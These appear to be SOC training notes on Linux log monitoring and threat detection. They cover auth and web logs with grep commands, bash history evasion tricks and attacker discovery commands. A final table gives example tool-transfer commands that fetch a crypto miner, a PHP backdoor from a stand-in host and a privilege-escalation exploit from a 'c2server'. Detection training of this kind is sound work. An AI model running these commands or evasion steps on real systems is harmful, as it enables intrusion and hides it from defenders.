

# Linux Security Monitoring

## Linux Logging for SOC

1. **Discovering Logs**

```
ls -l /var/log
```

### Authentication Logs&#x20;

* `/var/log/auth.log`
* `/var/log/secure`

<figure><figcaption></figcaption></figure>

#### Login and Logout Events

1. Local and Remote Logins

```shellscript
cat /var/log/auth.log | grep -E 'session opened|session closed'
```

2. Cron and Sudo Logins

```shellscript
cat /var/log/auth.log | grep -E 'cron:session.*session opened|cron:session.*session closed'
```

3. SSH-Specific Events

```shellscript
cat /var/log/auth.log | grep "sshd" | grep -E 'Accepted|Failed'
```

#### Miscellaneous Events

1. User Management Events

```shellscript
cat /var/log/auth.log | grep -E '(passwd|useradd|usermod|userdel)\['
```

2. Commands Run With Sudo

```shellscript
cat /var/log/auth.log | grep -E 'COMMAND='
```

### Generic System Logs

* `/var/log/kern.log`: Kernel messages and errors, useful for more advanced investigations
* `/var/log/syslog (or /var/log/messages)`: A consolidated stream of various Linux events
* `/var/log/dpkg.log (or /var/log/apt)`: Package manager logs on Debian-based systems
* `/var/log/dnf.log (or /var/log/yum.log)`: Package manager logs on RHEL-based systems

### App-Specific Logs

1. Nginx Web Access Logs

```shellscript
cat /var/log/nginx/access.log
```

### Bash History

1. Bash History File and Command

```shellscript
cat /home/ubuntu/.bash_history
```

#### How an attacker can hide commands from Bash history

* **Add a leading space** before the command (if `HISTCONTROL=ignorespace` is configured).
* **Run commands through a script** instead of typing them directly in the terminal.
* **Use another shell**, such as `/bin/sh`, instead of Bash.
* **Execute commands non-interactively**, for example through **cron jobs, services, or web servers**.
* **Manipulate or delete the Bash history file** (`~/.bash_history`).
* **Clear the current shell history** using commands such as `history -c`

### Runtime Monitoring

* Process creation
* File changes
* Network-related events

### System Calls

<figure><figcaption></figcaption></figure>

### Audit Rules

<figure><figcaption></figcaption></figure>

***

## Linux Threat Detection&#x20;

### Initial Access&#x20;

#### SSH Attacks **investigation**

1. Multiple failed logins followed by a success
2. login from an external untrusted IP

#### investigate

* **Username**: Who owns the user? Is it expected for them to log in at this time and from this IP?
* **Source IP**: What do [TI tools](https://tryhackme.com/room/ipanddomainthreatintel) and [asset lookups](https://tryhackme.com/room/socworkbookslookups) say about the IP? Is it trusted or malicious?
* **Login history**: Was the login preceded by brute force or other suspicious system events?
* **Next steps**: Is the login suspicious? Should I analyze user actions following the login?

```shellscript
cat /var/log/auth.log | grep -E "Failed password"
```

#### web log **investigation**

```shellscript
cat /var/log/nginx/access.log 
```

1. Timestamp
2. Source IP
3. Endpoint
4. HTTP Method (GET, POST, PUT)
5. Query String
6. User-Agent
7. Status Code

#### process tree **investigation**

```
PID 1
└── Python Web App
    └── /bin/sh
        └── whoami
```

<figure><figcaption></figcaption></figure>

***

### Discovery

<table><thead><tr><th width="250">Discovery Goal</th><th>Typical Commands</th></tr></thead><tbody><tr><td>OS and Filesystem Discovery</td><td><code>pwd</code>, <code>ls /</code>, <code>env</code>, <code>uname -a</code>, <code>lsb_release -a</code>, <code>hostname</code></td></tr><tr><td>User and Groups Discovery</td><td><code>id</code>, <code>whoami</code>, <code>w</code>, <code>last</code>, <code>cat /etc/sudoers</code>, <code>cat /etc/passwd</code></td></tr><tr><td>Process and Network Discovery</td><td><code>ps aux</code>, <code>top</code>, <code>ip a</code>, <code>ip r</code>, <code>arp -a</code>, <code>ss -tnlp</code>, <code>netstat -tnlp</code></td></tr><tr><td>Cloud or Sandbox Discovery</td><td><code>systemd-detect-virt</code>, <code>lsmod</code>, <code>uptime</code>, <code>pgrep "&#x3C;edr-or-sandbox>"</code></td></tr></tbody></table>

### Tool Transfer

<table><thead><tr><th width="179">Command</th><th>Usage Example</th></tr></thead><tbody><tr><td><strong>Wget</strong>: </td><td><code>wget https://github.com/xmrig/[...]/xmrig-x64.tar.gz -O /tmp/miner.tar.gz</code></td></tr><tr><td><strong>Curl</strong>: </td><td><code>curl --output /var/www/html/backdoor.php "https://pastebin.thm/yTg0Ah6a"</code></td></tr><tr><td><strong>SSH</strong>: Transfer a file via <a href="https://www.redhat.com/en/blog/secure-file-transfer-scp-sftp">SCP or SFTP </a></td><td><code>scp kali@c2server:/home/kali/cve-2021-4034.sh /tmp/cve-2021-4034.sh</code></td></tr></tbody></table>
